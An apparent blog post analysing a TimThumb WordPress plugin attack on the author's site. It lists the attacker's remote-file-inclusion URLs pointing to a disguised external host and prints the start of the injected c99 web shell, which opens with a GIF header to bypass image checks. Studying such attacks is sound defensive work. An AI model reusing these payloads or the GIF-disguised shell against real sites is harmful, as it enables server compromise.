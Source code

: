 The attacker tried to exploit the plugin in three different place:

1. http://armoredcode.com/wp-content/themes/nova/scripts/timthumb.php?src=http://picasa.com.ipsupply.com.au/wp-content/uploads/2012/03/IN.php
2. http://armoredcode.com/blog/wp-content/themes/nova/scripts/timthumb.php?src=http://picasa.com.ipsupply.com.au/wp-content/uploads/2012/03/IN.php
3. http://armoredcode.com/blog/archive/wp-content/themes/nova/scripts/timthumb.php?src=http://picasa.com.ipsupply.com.au/wp-content/uploads/2012/03/IN.php

![]({{site.url}}/images/ip_supply_homepage.png)

Looking at the attempts we can see that the attacker hosted the malicious PHP
code over [www.ipsupply.com.au](http://www.ipsupply.com.au/), we can imagine an
hosting website running blogs since it refers to a wp-content directory.

The homepage says that the webserver is configured and running but there is no content over it.

We can imagine that this Australian powered website has nothing to do with the
attacker that used it as storage.

![]({{site.url}}/images/picasa-faked.png)
The attacker tried to mimic the link name surrounding with picasa.com verbs so
to keep fool for sysadmins looking at the logs. Quickly reading picasa.com over
a link it may sound that a regular image linked to a blog post.

A clever idea would be to mimic the whole picasa.com website instead of public
admit it is a fake. But our attacker is not that minded at all.

He tried to inject a IN.php file... I'm curious enough to go for it, take a
look inside and of course writing this post. =)

## The code

The malicious code starts with a GIF preamble to keep the wordpress plugin fool around.

``` php Pretend to be a GIF Image

GIF89a�����ÿÿÿ!ù����,�������D�;�<?php
$language = 'eng';
$auth     = 0;
$name     = ''; // md5 Login
$pass     = ''; // md5 Password
/**************************************************************************************************************************************************************/
@error_reporting(0);
@set_time_limit(0);?><?php
/*******************************************/ 
/* c99 injector v1 09.2011                 */ 
/* Re-coded or modified By b3n_jol          */ 
/*******************************************/ 
$sh_id = "sakaw"; 
$sh_ver = "- shell"; 
$sh_name = ($sh_id).$sh_ver; 
$sh_mainurl = "http://s4l1ty.binhoster.com"; 
``` 
